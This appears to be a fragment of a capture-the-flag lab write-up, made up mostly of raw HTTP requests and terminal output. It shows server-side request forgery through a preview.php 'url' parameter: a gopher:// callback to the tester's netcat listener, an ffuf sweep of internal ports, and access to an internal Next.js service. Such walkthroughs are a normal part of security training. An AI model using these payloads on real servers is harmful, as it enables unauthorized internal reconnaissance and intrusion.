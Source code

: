 ```bash
GET /preview.php?url=gopher://xx.xxx.xx.xx:4444/_hi HTTP/1.1
Host: xx.xx.xxx.xx
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://xx.xx.xxx.xx/
Upgrade-Insecure-Requests: 1
Priority: u=4


```

```bash
HTTP/1.1 200 OK
Date: Sat, 06 Sep 2025 xx:xx:xx GMT
Server: Apache/2.4.58 (Ubuntu)
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/plain;charset=UTF-8
```

<p>

- disconnected :-(</p>

```bash
:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on xx.xx.xxx.xx 37010
hi
```

<br>
<h2>Enumeration  .  Internal Ports</h2>

```bash
:~# ffuf -u 'http://xx.xx.xxx.xx/preview.php?url=http://127.0.0.1:FUZZ/' -w <(seq 1 65535) -mc all -t 100 -fs 0
...
80                      [Status: 200, Size: 1735, Words: 304, Lines: 65]
10000                   [Status: 200, Size: 6131, Words: 104, Lines: 1]
```

<h2>Next.js application</h2>

```bash
GET /preview.php?url=http://127.0.0.1:10000 HTTP/1.1
Host: 10.10.210.15
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://xx.xx.xxx.xx/
Upgrade-Insecure-Requests: 1
Priority: u=4

```

